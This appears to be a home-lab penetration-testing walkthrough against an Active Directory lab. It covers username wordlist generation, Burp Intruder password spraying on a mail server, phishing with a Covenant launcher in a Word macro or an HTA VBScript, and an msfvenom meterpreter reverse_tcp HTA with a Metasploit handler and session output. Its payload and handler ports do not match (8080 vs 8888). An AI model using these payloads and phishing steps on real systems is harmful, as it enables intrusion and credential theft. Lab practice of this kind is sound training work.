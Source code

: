 # 1. Exploring Website Information and Generating Wordlist:

- During the process of exploring a website, we discovered the presence of user information.

![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/6dd20bda-c7bb-4c52-bdb9-afcebefcb6de)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/611b278c-e6bc-450c-a215-3d4d0774a99f)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/370b18a8-196d-4dff-bf14-918d73381b0c)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/7471ec01-b4bc-409a-9f55-594eb1aebf85)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/e10c3dca-450b-491d-9759-17c92437a02a)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/95028718-f80b-4a76-bcad-daa7e5ac7b4e)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/107b3a47-72b8-493b-9f2e-e4bd34bbd905)
![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/2a7bf9db-8124-46fe-b646-2c2c4dce0ec1)


- We compiled a list of usernames and saved them in a file for further analysis and use.

![image](https://github.com/singhx-hub/Active-Directory--Home-Lab-/assets/126919241/7dbdf2ff-7c89-4725-b6c6-f15ab3f136ee)

-  Use the ["usernamify"](https://github.com/singhx-hub/Usernamify) script to generate usernames by combining the first and last names from our user list and save the output in a text file

```python
└─$ ./usernamify.py web-users > userlist
jonathontaylor
taylorjonathon
jonathon.taylor
taylor.jonathon
taylorj
----snip------
tjonathon
j.taylor
t.jonathon
jonathon
```

> ## Machines required: WorkStation-01, UbuntuMail, and Kali machine.

- Navigate to the mail server in the browser using the UbuntuMail IP.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a7cb57e2-f47a-4bb8-aeea-c7d076270f1f)

- Open Burp Suite and intercept the request using a proxy

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/0e1243e8-e064-46b4-98fa-fcdd27d2f066)

- In Burp Suite's Intruder tool, initiate the attack by selecting the request and specifying the user and pass arguments for fuzzing. Add the generated username list to the user section and include common passwords like "summer2021!" and "fall2020!" as payload options. Configure the attack method as "Cluster Bomb" and launch the attack to test different combinations.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/1a001328-1ea6-444e-8b47-2585fe94e301)

- Accomplished the task by successfully identifying the username "a.tarolli" along with the corresponding password "Summer2021!"
- Log in to the mail server using the a.tarolli creds.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/fb42b533-d0d2-4fe6-81b7-b045e2975eb8)

## Phishing Email

- Setup listener on Covenant and generate a PowerShell launcher. 
- Host a file named rev.ps1 and copy the highlighted encoded luncher.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b212bcc4-2595-4d6d-a3d7-c6bfc932e995)

As we don't have MS Word installed on our system so we will use [Nishang's Out-File.ps1 script](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1) to create a Word document and autorun macro with provided payload.


![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/1e69618b-0d57-4d91-8e98-c510b63c1d36)

> Setup smbserver using cmd `smbserver.py Share . -smb2support`. To make the file build successfully.

Host the file through Covenant Listener to transfer it.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/03c10d80-b013-4c9d-8a8f-97397aa73bb9)

Now, we will send the email with the phishing file linked on the link. Click send.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/df34a823-442c-4922-afe1-0dae15e1c300)

When on the Workstation-01 we will download the file and open it with enable editing. There is nothing happening on the Workstation-01, but on our Kali machine Covenant, we have an active Grunt activated which means now we shell.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/499854eb-afb3-47e7-838c-f1416fb8a75b)

> ## Alternate

If in case we don't have MS Word installed in our system we can utilize the `.hta` file to get a shell on Covenant. For this, we need the code:

```vb
<script language="VBScript">

  Function DoStuff()

               Dim wsh

               Set wsh = CreateObject("Wscript.Shell")

                wsh.run "<powershell command>"

               Set wsh = Nothing

  End Function

  DoStuff

  self.close

</script>
```

Now, follow the same steps as above, edit the link in the phishing email and setup listener with the host `.hta` file

When the user opens the file, we will find the grunts active.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/c718cb1f-9b3a-4cf5-a0b5-420f07fc95d3)

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/a301c30d-89ee-435d-bcb4-873ef5704988)

## We can achieve the same using METASPLOIT:

First, we must create a `.hta` file using `msfvenom`.

```bash
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.186 LPORT=8080 -f hta-psh -o file.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of hta-psh file: 7912 bytes
Saved as: file.hta
```
Now, open Metasploit and setup the listener using cmds:

```bash
msf6 > use exploit/multi/handler
(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
(multi/handler) > set lport 8888
(multi/handler) > set lhost eth0
(multi/handler) > run
```

Run the generated `.hta` file to the victim's workstation-01.
After running the file we get meterpreter shell back to our machine.

```bash
[*] Sending stage (200774 bytes) to 192.xxx.xxx.xxx.
[*] Meterpreter session 1 opened (192.xx.xxx.xxx:8080 -> 192.xxx.xxx.xxx.:50324) at 2023-07-23 19:25:35 +0100
sessions
meterpreter > getuid
Server username: mayorsec\s.chisholm
meterpreter > 
```
